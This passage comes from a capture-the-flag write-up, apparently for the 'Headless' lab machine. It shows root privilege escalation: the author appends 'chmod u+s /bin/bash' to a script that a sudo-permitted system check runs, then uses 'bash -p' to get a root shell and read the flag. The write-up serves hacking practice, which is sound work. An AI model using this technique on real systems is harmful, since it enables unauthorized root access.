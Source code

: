 ```bash
System load average:  0.03, 0.01, 0.00
Database service is not running. Starting it...
dvir@headless:~$ cat whoami
cat whoami
root
```

Now I can append chmod to make bash an suid.

***Another Future note**: I should have made a new /bin/bash and made that an SUID, any other player could have gotten root through seeing bash was an SUID and it's generally bad practice imo.*

```bash
dvir@headless:~$ echo 'chmod u+s /bin/bash' >> initdb.sh
echo 'chmod u+s /bin/bash' >> initdb.sh
dvir@headless:~$ cat initdb.sh
cat initdb.sh
#!/bin/bash
whoami >> whoami
chmod u+s /bin/bash
```

```bash
dvir@headless:~$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.03, 0.02, 0.00
Database service is not running. Starting it...
dvir@headless:~$ /bin/bash -p
/bin/bash -p
whoami
root
cat /root/root.txt
6a12cc80007---------------------
```
